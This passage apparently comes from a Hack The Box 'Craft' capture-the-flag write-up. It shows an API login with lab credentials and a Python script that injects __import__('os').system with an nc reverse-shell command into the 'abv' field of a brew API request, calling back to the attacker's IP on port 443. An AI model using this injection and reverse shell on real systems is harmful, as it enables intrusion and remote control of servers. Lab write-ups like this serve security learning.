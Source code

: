 <center><img src="/images/craft_htb_writeup/image-25-1024x531.png"></center>
</div>

{% highlight python %}
response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)

{% endhighlight %}

Now that I had valid credentials, I made a simple script that would spawn a reverse shell:

{% highlight python %}
#!/usr/bin/env python

import requests
import json

response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
json_response = json.loads(response.text)
token =  json_response['token']

headers = { 'X-Craft-API-Token': token, 'Content-Type': 'application/json'  }

print("Spwaning a reverse shell on port 443...")
brew_dict = {}
brew_dict['abv'] = '__import__("os").system("nc 10.10.14.156 443 -e /bin/sh &") #'
brew_dict['name'] = 'bullshit'
brew_dict['brewer'] = 'bullshit'
brew_dict['style'] = 'bullshit'

json_data = json.dumps(brew_dict)
response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
print("Done!")

{% endhighlight %}
